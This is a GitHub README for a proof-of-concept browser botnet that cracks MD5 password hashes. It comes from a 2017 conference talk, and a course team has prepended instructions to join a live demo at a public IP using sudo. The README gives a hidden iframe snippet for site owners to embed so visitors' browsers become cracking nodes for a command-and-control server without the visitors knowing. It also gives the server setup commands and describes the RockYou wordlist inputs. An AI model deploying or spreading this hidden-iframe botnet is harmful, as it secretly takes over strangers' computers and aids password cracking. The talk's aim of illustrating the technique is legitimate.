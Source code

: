 # How to connect to the live demo

//Commands Needed to run//

git clone

cd CSC698Team01--PasswordCracking

npm install

sudo node client.js 73.158.194.215:3000

//Commands Needed to run//

To view your hashes and etc on the network put this into your web browser:

http://73.158.194.215:3000/

To begin mining please go to the following link

http://73.158.194.215:3000/embed/

If you don't have NPM please install it here:

http://blog.teamtreehouse.com/install-node-js-npm-linux













# Distributed Password Cracking


Borrow CPU cycles from visitor's web browsers to crack MD5 password hashes. Embedding a hidden `<iframe>` to a website will automatically add a visitor's browser as a node in a password cracking botnet. Their browser will received MD5 hashes and password candidates from a command-and-control server and report back any passwords it cracks for the duration of the time the visitor is browsing the "infected" website.

![Screenshot](.screenshot.png)

```html
<!-- add a single iframe embed to *your* website to add all visitors
     as nodes in the password cracking botnet -->
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```

This is proof-of-concept code for the [Browser as Botnet talk](http://radicalnetworks.org/participants/brannon-dorsey) ([video](https://livestream.com/internetsociety/radnets17/videos/164720367)) at [Radical Networks 2017](http://radicalnetworks.org/). As such, it **is not** optimized. There are far [more efficient ways](https://github.com/brannondorsey/naive-hashcat) to crack passwords if that is your goal. This project is intended to illustrate how compute jobs can be massively distributed across browsers.

**DISCLAIMER: This software is for educational purposes only. This software should not be used for illegal activity. The author is not responsible for its use. Don't be a dick.**

## Getting Started

```bash
# clone this repo
git clone https://github.com/brannondorsey/distributed-password-cracking
cd distributed-password-cracking

# install the dependencies
npm install

# run the command-and-control server
node server.js
```

Navigate to http://localhost:3000 to view the **unprotected** "admin" panel. This microsite allows you to view the activity of your botnet in real-time. To test that your password cracking network is working, open another browser tab to http://localhost:3000/embed. This creates a browser cracking node and launches one web worker per CPU on your machine. You should now see a connected node on the admin panel.

The server distributes password candidates and MD5 hashes to browser clients continuously as they connect. It uses:

- [`data/passwords.txt`](data/passwords.txt): The first 100,000 passwords from the [Rockyou](https://wiki.skullsecurity.org/Passwords) password dictionary
- [`data/hashes.txt`](data/hashes.txt): The `example0.hash` MD5 hashes distributed with [Hashcat](https://hashcat.net/hashcat/)

Cracked passwords are saved to `data/cracked.txt` like so:

```
5f4dcc3b5aa765d61d8327deb882cf99:password
```

Replace `passwords.txt` and `hashes.txt` to use your own password dictionary and MD5 hashes.

### Embedding the `<iframe>`

Once your server is running adding nodes is as easy as including an iframe in your website. For this to work, your node server has to be publicly accessible from the web. That means setting up port forwarding/ssh tunnels or renting a VPS (on AWS or the like) without a firewall on port 3000. Add the below iframe to whatever web page you would like visitors to crack passwords from:

```html
<iframe src="YOUR_WEBSITE.com:3000/embed" style="display:none">
```
**Note**: The node `server.js` enables CORs by default, but if you are proxying the connection (via Nginx, etc...) you may need to enable CORs on that proxy server as well.

## Future Features

- WebAssembly MD5 hashing. I'm close to this but ran out of time ahead of the talk. I'm reaching near native speeds in my tests, bringing hashrates on my machine from ~700K a second to 5M, nearly an order of magnitude speedup!
- CPU throttling settings

## License and Attribution

This software is released under an MIT license. You are free to use, modify, distribute, and sell it under those terms.
